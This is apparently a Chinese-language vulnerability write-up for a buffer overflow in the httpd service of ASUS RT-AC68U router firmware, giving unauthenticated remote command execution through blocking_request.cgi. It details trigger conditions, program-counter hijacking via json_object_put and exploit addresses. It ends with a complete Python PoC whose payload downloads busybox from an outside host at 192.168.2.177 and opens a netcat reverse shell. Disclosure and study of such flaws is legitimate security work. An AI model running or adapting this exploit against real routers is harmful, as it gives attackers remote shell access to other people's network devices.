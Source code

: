 # 前言
我在AC68U RT-AC68U_3.0.0.4_384_45713-g0f2983e.trx固件版本中发现了2个漏洞。
- 漏洞①：blocking_request.cgi  高危:未授权任意命令执行
在httpd二进制文件中，攻击者可在未登陆验证的情况下发送特定的数据包成功利用此问题，可通过控制timestap参数进行缓冲区溢出达到任意命令执行效果

- 漏洞②：blocking.cgi  低危:授权拒绝服务
 原理同漏洞①但是经测试，无法达到任意命令执行效果，但是攻击后会将设备打崩且无法通过reset重启，需要通过救援模式刷固件
在httpd二进制文件中，攻击者可在登陆验证的情况下发送特定的数据包成功利用此问题，可通过控制CName | Interval | timestap任一参数进行缓冲区溢出达到拒绝服务效果

# 漏洞类型
缓冲区溢出

# 漏洞描述
在web服务对应二进制文件httpd中，攻击者可在未登陆验证的情况下，通过控制timestap参数进行缓冲区溢出触发漏洞达到远程任意命令执行的效果

# 影响范围
AC68U FirmwareVersion < 3.0.0.4.385.20633 
</br>
RT-AC5300 FirmwareVersion
</br>
. . . . . .
</br>
此漏洞影响多个路由器型号，具体型号暂未统计，官方2020年8-9月份修复的RCE漏洞（如下图）似乎就是这个
</br>
![image](https://user-images.githubusercontent.com/45091804/146535975-97051c7f-a65e-465a-8ed6-bc15ae5f6e6c.png)

# 漏洞触发流程
**本次数据基于固件版本AC68U 3.0.0.4.384.45713**
</br>
CName、mac、interval、timestap参数内容均为可控
</br>
### 流程1. 构造timestap、mac参数满足条件通过判断条件
 ①系统时间+3600-atol(timestap参数)<20 （timestap参数:通过一次空包返回内容来计算时间戳（注意需要根据设备系统设置时区计算）
 ![image](https://user-images.githubusercontent.com/45091804/146538461-c4dcb76e-d911-42c3-8c2d-ba7e1309f06f.png)
 </br>
 ②sub_11840函数为nvram_get，初始MULTIFILTER_MAC值为空，str("",mac)，所以mac必须为空
  </br>
  
 ![image](https://user-images.githubusercontent.com/45091804/146538587-02d5ce10-1572-4c4b-b148-9dbfcf84840d.png)

### 流程2. 绕过atol函构造timestap参数
atol(1639469133aaaaaaa.....)返回内容为1639469133,所以只需要在计算好的时间戳后面填充即可，通过strcat函数触发漏洞
![image](https://user-images.githubusercontent.com/45091804/146538789-fe6e5a14-2b47-4c13-8bf5-a202dbe2f7ed.png)

# 漏洞利用
1. timestap参数第一次尝试填充4740 * a,查看栈中数据，还有40个字节需要填充，也就是时间戳 + 4880* a + p32(addr)
![image](https://user-images.githubusercontent.com/45091804/146540066-b3f23900-0969-4edd-9deb-8dc8632abae9.png)

2. 调试中发现会提前崩溃，逐步跟踪，发现崩溃点位于json_object_put函数，此函数参数会从栈上取数据（原数据值为0），而栈被覆盖了后取的数据导致提前崩溃
![image](https://user-images.githubusercontent.com/45091804/146541130-4c897ae3-6172-48d9-a902-0534d2f83480.png)

3. libjson-c.so.2.0.2查看json_object_put函数原型，a1就是栈上取的参数，也就是只有当满足条件a1=0 或 *(a1+12)-- != 1 才能保持正常返回。由于是strcat函数导致溢出，栈中数据出现00会截断。注意下图左边汇编代码，LDR是取内容，--后比较完后会通过STR指令将内容写回原地址，所以在覆盖返回地址前，理论上构造参数：时间戳 + 4840* a +p32(addr) +32*a +p32(addrToSystem) addr必须满足条件：可读、可写、无00
![image](https://user-images.githubusercontent.com/45091804/146541761-919669df-f73b-4917-8484-256c3f8ca10c.png)
4. 寻找合适地址
- 查看区段信息，未发现所需地址
- 查看lib库，开启了PIE，无法利用 （碰撞libc地址，因为概率太低不进行尝试了）
![image](https://user-images.githubusercontent.com/45091804/146541939-f0c53a5c-232e-4d2a-ae04-8dfb25d81d58.png)
5. 然而json_object_put函数内部有个函数指针调用，而a1的值是可控的，也就是不用覆盖到返回地址也可以劫持PC
![image](https://user-images.githubusercontent.com/45091804/146554377-df982dfb-d21a-4a3b-a0a6-f9ac650e5244.png)

6. 观察bss段数据 发现CName、mac、interval、timestap内容都存在bss段，且bss段可读可写。
构造结构如下图，且运行到json_object_put函数内，准备跳转前，发现R10的内容保存的是CName参数内容。
<sup> 


  
  
     #cmd：需要执行的命令
     #timeStapStr：计算好的时间戳
     #addr：interval参数内容首地址，需要根据cmd命令的长度进行调整
    'CName': cmd，
    'mac': '',
    'interval': 'a'*12+p32(1)+'a'*16+p32(0x0000EFA8),
    'timestap': timeStapStr +'a'*4740+p32(addr) 



</sup>

![image](https://user-images.githubusercontent.com/45091804/146554630-170a7eb3-5f7b-437b-8e44-6ad19c19f2cb.png)

# 漏洞演示
  [![Watch the video](https://raw.github.com/GabLeRoux/WebMole/master/ressources/WebMole_Youtube_Video.png)](https://youtu.be/9rpNKSVQtFM)
  
# POC 
POC需要根据不同版本调整
</br>
以下是争对3.0.0.4.384.45713固件版本的POC
<sup> 


  
    
    #coding=utf-8
    from pwn import *
    import re
    import time
    import requests
    import urlparse
    import urllib3
    urllib3.disable_warnings()
    import sys

    def rematch(strTmp):
        tm_year = strTmp[0][2]
        tm_month = strTmp[0][1]
        tm_day = strTmp[0][0]
        tm_hour = strTmp[0][3]
        tm_min = strTmp[0][4]
        tm_sec = strTmp[0][5]
        if tm_month == 'Jan':
            tm_month = '01'
        if tm_month == 'Feb':
            tm_month = '02'
        if tm_month == 'Mar':
            tm_month = '03'
        if tm_month == 'Apr ':
            tm_month = '04'
        if tm_month == 'May':
            tm_month = '05'
        if tm_month == 'Jun':
            tm_month = '06'
        if tm_month == 'Jul':
            tm_month = '07'
        if tm_month == 'Aug':
            tm_month = '08'
        if tm_month == 'Sept':
            tm_month = '09'
        if tm_month == 'Oct':
            tm_month = '10'
        if tm_month == 'Nov':
            tm_month = '11'
        if tm_month == 'Dec':
            tm_month = '12'
        tm_hour = int(tm_hour) + 8
        time_tmp = '{}-{}-{} {}:{}:{}'.format(tm_year, tm_month, tm_day, tm_hour, tm_min, tm_sec)
        print(time_tmp)
        ts = time.strptime(time_tmp, "%Y-%m-%d %H:%M:%S")
        timeStamp= int(time.mktime(ts))
        return timeStamp


    def getTime(url):
        scheme =  urlparse.urlparse(url).scheme
        hostname = urlparse.urlparse(url).hostname
        header={
            'Host': hostname,
            'Cache-Control': 'max-age=0',
            'Upgrade-Insecure-Requests': '1',
            'Origin': scheme+'://'+hostname,
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Referer': scheme+'://'+hostname,
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-CN,zh;q=0.9',
            'Connection':'close'
        }
        data1 ={
            'CName': '',
            'mac': '',
            'interval': '',
            'timestap': '',
        }
        url = url+'/blocking_request.cgi'
        ret = requests.post(url = url ,
                      headers = header,
                      data = data1,
                      verify=False)
        format_time =''
        for key, value in (ret.headers).items():
            if 'Date' in key:
                format_time = value
        tmp = re.findall(r', (.*?) (.*?) (.*?) (.*?):(.*?):(.*?) GMT',format_time)
        timeStap = rematch(tmp) + 3600
        timeStapStr = str(timeStap)
        print(timeStapStr)
        data2 ={
            'CName': 'cd /tmp/home/root;wget http://192.168.2.177:8080/busybox-armv6l;chmod 777 *;./busybox-armv6l nc 192.168.2.177:1234 -e /bin/ash',
            'mac': '',
            'interval': 'a'*12+p32(1)+'a'*16+p32(0x0000EFA8),   
            'timestap': timeStapStr +'a'*4740+p32(0x0006FE35),   #p32(addr) 此addr为interval参数内容首地址

        }
        ret = requests.post(url = url ,
                      headers = header,
                      data = data2,
                      verify=False,)
        print('End')


    if __name__ == '__main__':
        url = sys.argv[1]
        getTime(url)



</sup>
